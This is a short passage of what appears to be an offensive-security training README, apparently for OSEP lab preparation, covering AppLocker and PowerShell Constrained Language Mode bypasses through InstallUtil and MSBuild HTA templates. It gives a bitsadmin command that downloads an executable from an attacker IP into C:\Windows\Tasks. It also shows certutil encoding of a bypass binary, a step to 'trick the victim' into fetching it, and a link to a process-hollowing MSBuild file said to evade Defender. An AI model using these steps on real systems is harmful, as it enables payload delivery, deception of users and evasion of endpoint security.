 ### <ins>InstallUtil (installutil-template.hta)</ins>
*Note: if curl is not available on the target machine, we can use bitsadmin instead:*
- `bitsadmin /transfer myJob http://192.168.45.199/scanVenger.exe C:\Windows\Tasks\scanvenger.exe`

- Compile C# executable that uses Custom Powershell Runspace.
- Convert the outputted EXE to txt using certutil: `certutil -encode clm-bypass.exe file.txt`
- Use the InstallUtil template to trick the victim to download the file.txt file and let the magic happen.

### <ins>MSBuild (msbuild.hta)</ins>
- Use the file [hollow.xml](https://github.com/Extravenger/OSEPlayground/blob/main/03%20-%20CLM%20%26%20Applocker%20Bypass/3%20-%20MSBuild/hollow.xml). (Bypass defender and Applocker default rules)
